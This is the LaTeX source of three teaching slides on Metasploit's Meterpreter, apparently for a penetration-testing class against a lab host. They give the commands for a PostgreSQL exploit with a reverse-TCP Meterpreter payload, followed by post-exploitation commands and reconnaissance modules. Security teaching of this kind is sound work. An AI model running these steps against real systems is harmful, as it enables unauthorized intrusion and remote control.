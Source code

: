 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}
\frametitle{Meterpreter (1/3)}

Use the following commands:

\begin{enumerate}
    \item \texttt{msf5 > use exploit/linux/postgresql/postgresql\char`\_payload}
    \item \texttt{msf5 > set payload linux/x86/meterpreter/reverse\char`\_tcp}
    \item \texttt{msf5 > set RHOST 192.168.56.101}
    \item \texttt{msf5 > run}
\end{enumerate}

\end{frame}

\begin{frame}
\frametitle{Meterpreter (1/2)}

Some of the most common commands that Meterpreter has are:

\begin{itemize}
    \item List of commands:\\
    \texttt{meterpreter > help}
    \item Obtain shell:\\
    \texttt{meterpreter > shell}
    \item Get user info: \\
    \texttt{meterpreter > getuid}
    \item Get system info:\\
    \texttt{meterpreter > sysinfo}
\end{itemize}

\end{frame}

\begin{frame}
\frametitle{Meterpreter (3/3)}

Some of the available Meterpreter scripts are:

\begin{itemize}
    \item Check if the target is a virtual machine:\\
    \texttt{run post/linux/gather/checkvm}
    \item Get network configuration:\\
    \texttt{run post/linux/gather/enum\char`\_network}
    \item Get possible local exploits\\
    \texttt{run post/multi/recon/local\char`\_exploit\char`\_suggester}
\end{itemize}

\end{frame}
\end{document}
